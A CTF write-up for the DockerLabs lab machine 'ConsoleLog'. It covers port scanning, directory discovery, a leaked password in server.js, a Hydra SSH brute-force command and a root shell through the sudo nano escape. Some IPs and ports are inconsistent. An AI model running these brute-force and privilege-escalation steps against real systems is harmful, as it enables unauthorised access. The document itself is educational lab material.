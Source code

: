 ```yaml
---
title: ConsoleLog Writeup - DockerLabs
date: 2024-08-09
categories:
    - Writeups
    - DockerLabs
tags:
    - Linux
    - DockerLabs
    - CTF
    - Easy
img_path: /assets/img/commons/consolelog/
image: consolelog.png
---
```


Hello!

In this write-up, we will dive into the **DockerLabs** machine [ConsoleLog](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to).

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active:

```bash
ping -c 1 172.17.0.2
```


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 172.18.0.2 -oG allPorts
```

The only open ports that we see are 80 (HTTP server), 3000 (API) and 5000 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 172.18.0.2 -oN targeted -oX targetedXML
```

![nmap](nmap.png)


## Exploitation
---
We see a button and the machine's name give us a clue, let's try to click the button and see what's the output of the console (there is a `console.log`)

We see a message: "Para opciones de depuración, el token de /recurso/ es tokentraviesito"

We can't see much more information so let's try to find hidden directories:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster-report](gobuster.png)

We find the endpoint `/backend`. If we open it, we can see the following website:

![backend](endpoint_backend.png)

We can see a file named `server.js` let's see what it contains:

![server-js](server-js.png)

We have found a password, let's try to use Hydra to get into the SSH server:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xat-net-10-million-usernames.txt -P lapa?????????todas ssh://172.17.0.2:5000 -s 22 -t 64
```

We can see now that the user is lovely, and we can access via SSH with his credentials:

```bash
ssh lovely@172.17.0.2 -p 5000
```

<br>

## Privilege escalation
---

First, we should export the xterm to easily work with the SSH terminal. We can do this just by executing the following:
```bash
export TERM=xterm
```

Now, as the user Lovely, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](sudo-l.png)

We find that we can execute the `nano` tool as sudo.

We can access `nano` and obtain a shell by executing the following:

```bash
sudo nano
```

Once we are inside nano, we are going to type `CTRL+R` and then `CTRL+X`, we can now see that we can execute commands.

At this point, we are going to execute:

```bash
reset; sh 1>&0 2>&0
```

![privesc1](nano_privesc.png)

And now, we have access to a root priveleged terminal.

![root-sh](root-sh.png)

We can execute the following to get a full functional shell:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![sudo_access](privilege2.png)

Now we have gained superuser access and we have the whole system committed.


> H4Ppy H4ck1ng!

